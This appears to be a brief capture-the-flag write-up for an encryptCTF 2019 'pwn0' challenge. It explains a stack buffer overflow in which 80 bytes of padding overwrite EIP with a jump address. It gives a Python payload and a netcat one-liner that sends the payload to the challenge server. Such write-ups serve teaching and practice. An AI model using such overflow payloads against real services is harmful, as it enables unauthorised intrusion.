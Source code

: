 # Pwn0

![pwn0_chall](../IMG/pwn0_chall.png)

It's just a programme which asks : "How's the josh?" and answer : "Your josh is low! Bye!"

If we put many number we got : 

![pwn0_proof1](../IMG/pwn0_proof1.png)

![pwn0_proof2](/home/taiqui/Documents/WriteUp/encryptCTF_april_2019/IMG/pwn0_proof2.png)

so at index 80, we overwrite EIP registers.

so we have our offset, need what's inject !

in disassemble main programme, we can see :

![pwn0_proof3](../IMG/pwn0_proof3.png)

so we just call the **movl** previous instruction.

so our injection seems like : 

```python
offset = "A"*80
payload = "\x57\x85\x04\x08"
```

```bash
python -c 'print offset+payload'|nc 104.154.106.182:1234
and get the flag !
![pwn0_proof4](../IMG/pwn0_proof4.png)























```
